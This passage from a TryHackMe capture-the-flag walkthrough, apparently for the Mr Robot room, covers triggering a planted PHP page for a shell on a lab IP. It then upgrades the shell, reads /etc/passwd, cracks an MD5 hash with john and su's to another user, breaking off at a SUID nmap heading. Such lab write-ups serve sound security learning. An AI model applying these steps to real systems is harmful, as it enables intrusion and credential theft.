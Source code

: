 5. Trigger the modified page (e.g., visit `http://10.10.X.X/404.php`) to execute the PHP and get a shell back.

6. Upgrade the shell to a proper interactive TTY (Python upgrade):

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl-z
stty raw -echo
fg
```

---

## User enumeration and credential harvesting

1. After gaining a shell, enumerate the filesystem. Common useful commands:

```bash
id
uname -a
pwd
ls -la
ps aux
cat /etc/passwd
```

2. Check the home directory for interesting files. In this room we found an MD5 hash stored in a file (e.g., `/home/robot/` or a saved password file). Export or copy the hash and attempt to crack it.

3. Fast crack option: try an online rainbow table (CrackStation) or use `john`/`hashcat`:

```bash
# example: use CrackStation or hash-identifier to confirm MD5
# with john (if you saved the hash to hash.txt):
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=raw-md5
```

4. In this walkthrough the MD5 hash cracked to a readable password (e.g., `atoz...`), which allowed `su robot`:

```bash
su robot
# paste cracked password
```

5. Once switched to `robot`, read the second key:

```bash
cat /home/robot/user.txt
# copy the second key into TryHackMe
```

---

## Privilege Escalation — abusing SUID `nmap` (GTFOBins technique)
